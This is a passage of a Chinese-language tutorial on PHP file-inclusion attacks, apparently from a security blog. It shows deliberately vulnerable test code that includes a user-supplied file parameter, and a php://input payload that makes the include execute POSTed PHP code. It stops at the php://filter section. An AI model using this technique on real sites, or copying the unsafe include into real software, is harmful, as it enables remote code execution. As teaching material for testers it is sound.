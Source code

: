 在php.ini中，allow_url_fopen默认一直是On，而allow_url_include从php5.2之后就默认为Off。

# 包含姿势

下面例子中测试代码均为：

```
<?php	$file = $_GET['file'];	include $file;?>
```



allow_url_fopen 默认为 On
allow_url_include 默认为 Off

若有特殊要求，会在利用条件里指出。

## php伪协议

### php://input

利用条件：

1. allow_url_include = On。
2. 对allow_url_fopen不做要求。

姿势：

```
index.php?file=php://inputPOST:<? phpinfo();?>
```



[![img](Untitled.assets/5.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/5.png?raw=true)

### php://filter

利用条件：无甚

姿势：
